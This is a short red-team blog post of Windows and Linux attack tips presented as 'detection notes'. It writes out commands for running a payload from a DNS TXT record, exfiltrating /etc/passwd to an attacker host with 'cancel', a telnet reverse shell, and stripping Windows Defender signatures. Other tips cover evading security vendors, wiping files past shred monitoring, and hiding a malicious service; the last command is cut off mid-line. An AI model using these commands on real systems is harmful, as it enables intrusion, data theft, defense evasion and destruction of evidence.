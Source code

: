 ```yaml
---
layout: post
title:  "Red Team quick detection notes"
date:   2020-09-20 16:46:24 +0200
categories: [redteam, R&D, usecases]
---
```


# Windows

## Malicious Payload in DNS Txt
Attacker can put malicious payload in DNS TXT record content of domain. So, watch out for:

```bash
powershell . (nslookup -q=txt some.domain.com)[-1]
```


---
## Curl with cancel
Except curl, wget and nc commands, attacker can use ‘cancel’ to exfiltrate data 

```bash
Attacker machine:
nc -nlvp 18110 

Victim machine:
cancel -u "$(cat /etc/passwd | base64)" -h <ip>:<port>
```

---

---

## RCE without python Bash 
After successful RCE inside container, but the container doesn't have BASH, Netcat, Python, or any of your normal revshell helpers, attacker can also use telnet

```bash
mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth
```

---

---
## Explorer.exe for code Execution
Example: using explorer.exe for code execution

```powershell

explorer.exe /root,"C:\Windows\System32\calc.exe"
```
![new processes](/assets/img/red-teams-notes/pm1.png)

![child parent](/assets/img/red-teams-notes/pm2.png)

![Procmon](/assets/img/red-teams-notes/pm3.png)


---

## Windows Defender signature removoal  
A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures:

```powershell
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

---

Red Teamers: those pesky security vendors--like VirusTotal, PaloAlto, and Fortinet--will poke at your infrastructure and evaluate your malicious links, potentially flagging them. Use this .htaccess file to block the common ones outright: https://gist.github.com/curi0usJack/971385e8334e189d93a6cb4671238b10

---

---
## Delete file with shred
Just deleting files is not enough. To really remove them, use shred.

```bash
shred -z cthulhu.txt
```

If shred command is in monitoring for generating alert, the shred command may be caught, you can do this:

```bash
FN=cthulhu.txt; dd bs=1k count="du -sk \\"${FN}\\" | cut -f1" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

---

---
## Hiding Windows services
This is a really nasty tip: Windows' sc.exe allows you to manually assign service permissions with SDDL syntax. This allows you to essentially make your service invisible unless defenders already know the service name.

Services.exe, Get-Service, sc.exe, all of these fail.

Hiding Windows services:

```powershell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLO
```